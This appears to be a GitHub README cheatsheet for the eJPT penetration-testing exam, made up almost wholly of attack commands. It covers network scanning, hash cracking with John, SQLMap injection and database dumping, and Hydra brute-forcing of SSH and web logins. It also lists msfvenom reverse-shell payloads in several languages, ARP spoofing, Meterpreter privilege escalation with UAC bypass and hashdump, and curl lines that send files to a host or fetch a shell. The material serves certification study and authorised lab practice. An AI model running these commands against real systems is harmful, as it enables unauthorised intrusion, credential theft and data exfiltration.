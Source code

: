 # eJPT-Cheatsheet-Tips
This is a Cheatsheet for eJPT.

### Nmap
nmap -sn 10.10.10.0/24
nmap -sV -p- -iL targets -oN nmap.initial
nmap -A -p- -iL targets -oN nmap.aggressive

## fPing
fping -a -g 10.10.10.0/24 > targets 2>/dev/null

## IP Route
ip route add 172.16.50.0/24 via 10.13.37.1 dev tap0

## John

<--Crack Password Hash-->
john --wordlist=/root/Tools/wordlists/rockyou.txt --format=raw-md5

<--Crack SSH Private Key Hash-->
python3 /opt/john/ssh2john.py id_rsa > ssh_hash.txt
john --wordlist=/root/Tools/wordlists/rockyou.txt ssh_hash.txt

<--Crack Zip File Password Hash-->
zip2john file.zip > zip_hash.txt
john --wordlist=/root/Tools/wordlists/rockyou.txt zip_hash.txt

<--Crack /etc/passwd /etc/shadow Password Hash-->
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt unshadowed.txt

## dirb
<--Normal mode-->
dirb http://10.10.10.10/

<--With Authentication required-->
dirb http://10.10.10.10/dir -u admin:admin

## Netcat
<--Listening for reverse shell-->
nc -nvlp 1234

<--Banner Grabbing-->
nc -nv 10.10.10.10 <port>

## SQLMap
<--Check if injection exists-->
<~ With POST Request. Save the post request in a login.req file ~>
sqlmap -r login.req
<~ With url GET Request ~>
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id
<~ With POST Data ~>
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" 

<--Get database if injection Exists-->
sqlmap -r login.req --dbs
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs

<--Get Tables in a Database-->
sqlmap -r login.req -D dbname --tables
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables

<--Get data in a Database tables-->
sqlmap -r login.req -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump

## Hydra
<--SSH Login Bruteforcing-->
<~ With unknown username and password ~>
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh
<~ With unknown password ~>
hydra -v -V -u -l admin -P passwords.txt -t 1 -u 10.10.10.10 ssh
Use same for FTP, just replace ssh with ftp

<--HTTP POST Form-->
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L /usr/share/ncrack/minimal.usr -P /root/Tools/SecLists/Passwords/Leaked-Databases/rockyou-15.txt -f -V

## msfvenom shells
JSP Java Meterpreter Reverse TCP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

Bash Unix Reverse Shell
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh

ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp

Python
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

Bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

Perl
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

## Metasploit Meterpreter autoroute
run autoroute -s 10.10.10.0/24

## ARPSpoof
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i <interface> -t <target> -r <host>
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36

## SMB Enumeration
<--Get shares, users, groups, password policy-->
smbclient -L //10.10.10.10/
enum4linux -U -M -S -P -G 10.10.10.10
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v

<--Access Share-->
smbclient //10.10.10.10/share_name

## FTP Enumeration
nmap --script=ftp-anon 10.10.10.10 -p21 -v
ftp 10.10.10.10

## Meterpreter
ps
getuid
getpid
getsystem
ps -U SYSTEM
<--CHECK UAC/Privileges-->
run post/windows/gather/win_privs
<--BYPASS UAC-->
*Background the session first
exploit/windows/local/bypassuac
set session
<--After PrivEsc-->
migrate <pid>
hashdump

## Remote code execution
<--curl-->
curl http://10.10.10.10:8888 -T /tmp/r
curl http://10.10.10.10:8888/shell -o /tmp/shell
curl http://10.10.10.10/'id' | base64
curl http://10.10.10.10/'whoami'


